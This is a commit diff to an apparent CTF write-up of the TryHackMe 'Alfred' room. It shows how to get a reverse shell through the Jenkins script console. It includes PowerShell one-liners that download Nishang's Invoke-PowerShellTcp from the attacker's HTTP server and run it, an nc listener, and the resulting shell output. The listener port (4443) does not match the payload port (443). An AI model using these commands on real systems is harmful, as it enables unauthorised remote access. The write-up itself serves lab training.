

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/alfred.md, in a window 1280 px wide and 1400 px high, scrolled down 2861 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Initial commit

````diff
--- a/source/docs/thm/alfred.md
+++ b/source/docs/thm/alfred.md
@@ -99,29 +101,50 @@ and click [script console](https://www.jenkins.io/doc/book/managing/script-conso
 |:--:|
 | [https://www.jenkins.io/doc/book/managing/script-console/](https://www.jenkins.io/doc/book/managing/script-console/) |
 
-A PowerShell command to execute a reverse shell might work in both. "Nishang" contains a lot of reverse shell payloads and more.
+Test using `print` to display the output of the command: `print "whoami".execute().text`.
+
+A PowerShell command to execute a reverse shell might work in both. `Nishang` contains a lot of reverse shell payloads
+and more.
 
 If on Kali, copy `Invoke-PowershellTcp.ps1` from `/usr/share/nishang/Shells`. If not on Kali,
 [download Invoke-PowershellTcp.ps1 from Gihub](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1).
 
-I decided not to copy and just host the entire Nishang Shells directory, by starting a server in
-`/usr/share/nishang/Shells`:
+I decided not to copy and just host the entire Nishang Shells directory, by starting a server in the
+`/usr/share/nishang/Shells` directory:
 
 	# python3 -m http.server 80
     Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
 
-Option 1: Execute in windows batch command window - Test with: `whoami`, and if works:
+Start a listener:
+
+    # nc -lvnp 4443
+    Ncat: Version 7.92 ( https://nmap.org/ncat )
+
+Option 1: Execute in windows batch command window:
 
 ```text
-powershell iex (New-Object Net.WebClient).DownloadString(‘http://<IP address attack machine>:<http-server port>/Invoke-PowerShellTcp.ps1’);Invoke-PowerShellTcp -Reverse -IPAddress <IP address attack machine> -Port <netcat listener port>
+powershell iex (New-Object Net.WebClient).DownloadString(‘http://<IP address attack machine>:80/Invoke-PowerShellTcp.ps1’);Invoke-PowerShellTcp -Reverse -IPAddress <IP address attack machine> -Port 443
 ```
 
-Option 2: Script console - Test using "print" to display the output of the command: `print "whoami".execute().text`,
-and if works:
+Option 2: Script console:
 
 ```text
-print "powershell IEX(New-Object Net.WebClient).downloadString('http://<IP address attack machine>:<http-server port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <IP address attack machine> -Port <netcat listener port>".execute().text
+print "powershell IEX(New-Object Net.WebClient).downloadString('http://<IP address attack machine>:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <IP address attack machine> -Port 443".execute().text
 ```
+
+In the terminal with the listener:
+
+    # nc -lvnp 4443
+    Ncat: Version 7.92 ( https://nmap.org/ncat )
+    Ncat: Listening on :::4443
+    Ncat: Listening on 0.0.0.0:4443
+    Ncat: Connection from 10.10.184.145.
+    Ncat: Connection from 10.10.184.145:49217.
+    Windows PowerShell running as user bruce on ALFRED
+    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
+
+    PS C:\Program Files (x86)\Jenkins>
+
 Get the flag:
 
     PS C:\Program Files (x86)\Jenkins> cd ..\..\Users\bruce\Desktop
````
Also changed, not shown: other parts of source/docs/thm/alfred.md (+2 -0 lines).
